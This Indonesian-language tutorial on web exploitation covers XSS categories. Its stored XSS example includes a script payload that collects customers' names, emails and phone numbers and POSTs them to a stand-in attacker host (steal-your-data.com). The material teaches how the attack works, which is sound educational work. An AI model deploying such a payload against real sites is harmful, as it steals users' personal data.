



# Web Exploitation



Web Exploitation adalah sebuah kegiatan melakukan serangan terhadap suatu website. Serangan tersebut memiliki tujuan yang bermacam-macam mulai dari untuk mencuri data berharga, mengekploitasi resource dari web itu, sampai dengan melakukan testing keamanan suatu sistem. Ada bermacam-macam teknik yang bisa dilakukan untuk melakukan serangan terhadap suatu website.

## Cross-Site Scripting (XSS)
Serangan Cross-Site Scripting (XSS) dilakukan berdasarkan fakta bahwa suatu aplikasi web akan mengeksekusi script di browser dari user.

Serangan XSS sendiri memiliki beberapa kategori, dengan tiga kategori paling umum adalah :
- Stored (Kode disimpan di database sebelum dieksekusi)
- Reflected (Kode tidak disimpan di database, tetapi direfleksikan oleh server)
- DOM-based (Kode disimpan dan dieksekusi di browser)

### Stored XSS
Stored XSS mungkin adalah serangan XSS yang paling umum. Serangan ini cukup menarik karena biasanya merupakan XSS yang paling mudah dilacak, tetapi terkadang bisa menjadi salah satu yang paling berbahaya karena seringkali bisa memengaruhi banyak user.


*Salah satu contoh langkah-langkah serangan Stored-XSS*

Objek yang disimpan ke database bisa dilihat banyak user, di beberapa kasus semua user bisa terkena serangan ini jika objek global yang terinfeksi.

#### Sedikit contoh :
Ada suatu perusahaan yang memiliki website. Website tersebut menyediakan layanan keluhan pelanggan. Ada suatu pelanggan yang ingin membuat keluhan dengan isi seperti berikut :

```
I am not happy with the service provided by your bank.
I have waited 12 hours for my deposit to show up in the web application.
Please improve your web application.
Other banks will show deposits instantly.
—Unhappy Customer, support.mega-bank.com
```
Karena sang pelanggan ingin menegaskan suatu kalimat dan tidak ada fitur untuk bold di layanan keluhan tersebut, karena pelanggan tersebut seorang programmer maka sang pelanggan mencoba menggunakan tag `<strong></strong>` untuk mendapatkan font yang ter-bold. Sehingga pesannya menjadi :
```
I am not happy with the service provided by your bank.
I have waited 12 hours for my deposit to show up in the web application.
<strong>Please improve your web application.</strong>
Other banks will show deposits instantly.
—Unhappy Customer, support.mega-bank.com
```
Lalu tak lama CS dari perusahaan tersebut menjawab dengan pesan :
```
Hello, I am Sam with MegaBank support.
I am sorry you are unhappy with our application.
We have a scheduled update next month on the fourth that should increase the speed
at which deposits are reflected in our app.
By the way, how did you bold that text?
—Sam from Customer Support, support.mega-bank.com
```
Dari sini dapat diketahui bahwa input dari fitur tersebut tidak memiliki filter untuk tag html. Maka sang pelanggan tadi dapat melancarkan serangan dengan pesan seperti ini :
```javascript
I am not happy with the service provided by your bank.
I have waited 12 hours for my deposit to show up in the web application.
Please improve your web application.
Other banks will show deposits instantly.
<script>
/*
* Get a list of all customers from the page.
*/
const customers = document.querySelectorAll('.openCases');
/*
* Iterate through each DOM element containing the openCases class,
* collecting privileged personal identifier information (PII)
* and store that data in the customerData array.
*/
const customerData = [];
customers.forEach((customer) => {
    customerData.push({
        firstName: customer.querySelector('.firstName').innerText,
        lastName: customer.querySelector('.lastName').innerText,
        email: customer.querySelector('.email').innerText,
        phone: customer.querySelector('.phone').innerText
    });
});
/*
* Build a new HTTP request, and exfiltrate the previously collected
* data to the hacker's own servers.
*/
    const http = new XMLHttpRequest();
    http.open('POST', 'https://steal-your-data.com/data', true);
    http.setRequestHeader('Content-type', 'application/json');
    http.send(JSON.stringify(customerData);
</script>
—Unhappy Customer, support.mega-bank.com
```
Di pesan tersebut sang pelanggan menyisipkan script untuk mendapat data pelanggan di aplikasi tersebut.

### Reflected XSS
Reflected XSS beroperasi dengan cara yang mirip dengan Stored XSS, tetapi script tidak disimpan ke suatu database. Reflected XSS berefek ke kode dari client di browser langsung tanpa bergantung pada server untuk menyampaikan pesan dengan script untuk dieksekusi.


*Salah satu contoh Reflected-XSS*

Karena tidak disimpan di database, Reflected XSS lebih susah dipahami daripada Stored XSS.